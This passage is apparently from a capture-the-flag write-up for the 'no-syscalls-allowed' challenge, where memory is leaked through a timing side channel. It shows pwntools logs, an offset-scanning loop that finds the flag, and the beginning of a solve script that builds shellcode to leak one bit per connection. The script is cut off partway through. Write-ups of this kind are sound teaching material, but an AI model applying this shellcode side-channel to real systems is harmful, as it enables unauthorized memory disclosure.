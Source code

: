 ```
    header += chr(byte)
print(header)
```
And it worked! The "\x7fELF" means that this is the very start of the code section.
```
...
the bit is 1
[+] Opening connection to no-syscalls-allowed.chal.uiuc.tf on port 1337: Done
[+] Receiving all data: Done (30B)
[*] Closed connection to no-syscalls-allowed.chal.uiuc.tf port 1337
b'== proof-of-work: disabled ==\n'
0.10019659996032715
the bit is 0
01000110
\x7fELF
```
Finally, I can start trying to find the flag! I set up a script to leak a few characters in 0x10 byte increments, beginning from the start of my probably global variable area. If this wasn't working, I would have tried searching smaller increments, but I was hopeful that I would be able to find the flag more efficiently this way and it worked out well. Here is the code:
```
for i in range(0x0, 0x100, 0x10):
    test = ''
    for j in range(4):
        byte = (start_of_code_byte(i+j+0x4000, 0))
        test += chr(byte)
    print(test)
    if 'uiu' in test:
        print('SUCCESS!!!')
        print('offset at', hex(i))
        break
```
And I get a hit 0x80 bytes from the start of the section!
```
[+] Opening connection to no-syscalls-allowed.chal.uiuc.tf on port 1337: Done
[+] Receiving all data: Done (30B)
[*] Closed connection to no-syscalls-allowed.chal.uiuc.tf port 1337
b'== proof-of-work: disabled ==\n'
0.09762144088745117
the bit is 0
01100011
uiuc
SUCCESS!!!
offset at 0x80
```
Now I can get the full flag and win the challenge! Here is my final solve script, with prior steps commented out:
```
from pwn import *

context.clear(arch='amd64')
def get_a_bit(register, reg_offset, bit, local):
    if local == 1:
        target = process('./no_syscalls_allowed')
        pid = gdb.attach(target, "\nb *main+160\n set disassembly-flavor intel\ncontinue")
    else:
        target = remote('no-syscalls-allowed.chal.uiuc.tf', 1337)
    payload = asm('mov al, BYTE PTR ds:[' + register + '+' + str(reg_offset) + '''];
    xor r11, r11;
    shr al, ''' + str(bit) +''';
    shl al, 7;
    shr al, 7;
    imul rax, 0x20000000
    loop_start:
```